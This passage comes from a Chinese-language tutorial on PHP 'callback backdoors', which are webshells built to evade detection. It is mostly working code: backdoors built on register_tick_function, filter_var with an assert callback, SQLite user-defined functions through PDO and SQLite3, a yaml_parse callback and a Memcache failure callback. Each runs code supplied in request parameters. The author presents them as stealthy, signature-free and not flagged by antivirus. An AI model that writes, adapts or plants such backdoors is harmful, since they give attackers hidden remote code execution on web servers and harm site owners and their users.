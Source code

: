 这个是php全版本支持的，且不报不杀稳定执行：


再来一个：

    $e = $_REQUEST['e'];
    declare(ticks=1);
    register_tick_function ($e, $_REQUEST['pass']);

再来两个：

    filter_var($_REQUEST['pass'], FILTER_CALLBACK, array('options' => 'assert'));

这两个是filter_var的利用，php里用这个函数来过滤数组，只要指定过滤方法为回调（FILTER_CALLBACK），且option为assert即可。

这几个单参数回调后门非常隐蔽，基本没特征，用起来很6.

0x07 数据库操作与第三方库中的回调后门

回到最早微博上发出来的那个sqlite回调后门，其实sqlite可以构造的回调后门不止上述一个。

我们可以注册一个sqlite函数，使之与assert功能相同。当执行这个sql语句的时候，就等于执行了assert。所以这个后门我这样构造：

    $e = $_REQUEST['e'];
    $db = new PDO('sqlite:sqlite.db3');
    $db->sqliteCreateFunction('myfunc', $e, 1);
    $sth = $db->prepare("SELECT myfunc(:exec)");
    $sth->execute(array(':exec' => $_REQUEST['pass']));

执行之：

    enter image description here

上面的sqlite方法是依靠PDO执行的，我们也可以直接调用sqlite3的方法构造回调后门：


    $e = $_REQUEST['e'];
    $db = new SQLite3('sqlite.db3');
    $db->createFunction('myfunc', $e);
    $stmt = $db->prepare("SELECT myfunc(?)");
    $stmt->bindValue(1, $_REQUEST['pass'], SQLITE3_TEXT);
    $stmt->execute();

前提是php5.3以上。如果是php5.3以下的，使用sqlite_*函数，自己研究我不列出了。

这两个回调后门，都是依靠php扩展库（pdo和sqlite3）来实现的。其实如果目标环境中有特定扩展库的情况下，也可以来构造回调后门。 比如php_yaml：


    $str = urlencode($_REQUEST['pass']);
    $yaml = <<<EOD
    greeting: !{$str} "|.+|e"
    EOD;
    $parsed = yaml_parse($yaml, 0, $cnt, array("!{$_REQUEST['pass']}" => 'preg_replace'));

还有php_memcached：

    $mem = new Memcache();
    $re = $mem->addServer('localhost', 11211, TRUE, 100, 0, -1, TRUE, create_function('$a,$b,$c,$d,$e', 'return assert($a);'));
    $mem->connect($_REQUEST['pass'], 11211, 0);
